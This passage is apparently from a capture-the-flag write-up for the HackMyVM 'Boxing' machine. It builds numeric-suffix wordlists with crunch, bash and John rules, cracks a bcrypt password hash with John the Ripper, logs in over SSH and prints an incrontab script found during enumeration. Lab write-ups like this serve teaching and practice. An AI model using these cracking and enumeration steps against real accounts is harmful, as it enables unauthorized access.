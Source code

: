 From above hint I got though the <mark style="background: #FF5582A6;">client_requests.har.swp</mark> file where the password is suppose to be '**Cassius!**' that means that there are some characters are missing into this password I am guessing that the characters that are messing are numbers so Lets create a number combinations after this password and run through this password hash through <mark style="background: #FF5582A6;">John the ripper</mark> tool.
 
I have 2 ways to create the wordlists like this : 

1. Through crunch Tool : 
```bash
└─$ crunch 8 12 -t 'Cassius!%%%' -o wordlist.txt
```
{: .nolineno}
2. Through bash script like this 🔻
```bash
└─$ echo 'Cassius!'{0..9999} | tr ' ' '\n' > wordlists.txt
```
{: .nolineno}
3. We can also use the direct john rules method like this 🔻
```bash
└─$ echo 'Cassius!' > password.txt

└─$ john hashes.txt -w=password.txt - rules=best64
```
{: .nolineno}
![](Pasted%20image%2020250625141158.png)
_Cracking of password hash with custom made wordlists_

```bash
┌──(kali🔥kali)-[~/Downloads/HackMyVM/Boxing]
└─$ john --wordlist=wordlist.txt hashes.txt                     
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Cassi****    (?)     
1g 0:00:00:00 DONE (2025-06-25 12:23) 3.030g/s 381.8p/s 381.8c/s 381.8C/s
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
{: .nolineno}
Lets have an SSH session now 🔻

![](Pasted%20image%2020250627100412.png)
_Got a proper SSH shell which is stable_

Now for the root user I need some more enumeration through this user let us see what this user can do to get to root 🔻

```bash
cassius@boxing:~$ 
cassius@boxing:~$ cd /opt
cassius@boxing:/opt$ ls
pidstat  sos
cassius@boxing:/opt$ cd sos
cassius@boxing:/opt/sos$ ls
incrontab.sh  logs  sos.sh
cassius@boxing:/opt/sos$
cassius@boxing:/opt/sos$ cat incrontab.sh 
#!/bin/bash

echo '/etc/apache2/sites-available/000-default.conf IN_MODIFY systemctl restart apache2' | incrontab -
echo '/etc IN_DELETE,IN_MODIFY,IN_MOVED_FROM /bin/echo "File: $@/$# => $%" > /root/user_flag.log' | incrontab -
echo '/home/cassius/user.txt IN_ATTRIB /opt/sos/sos.sh' | incrontab -
```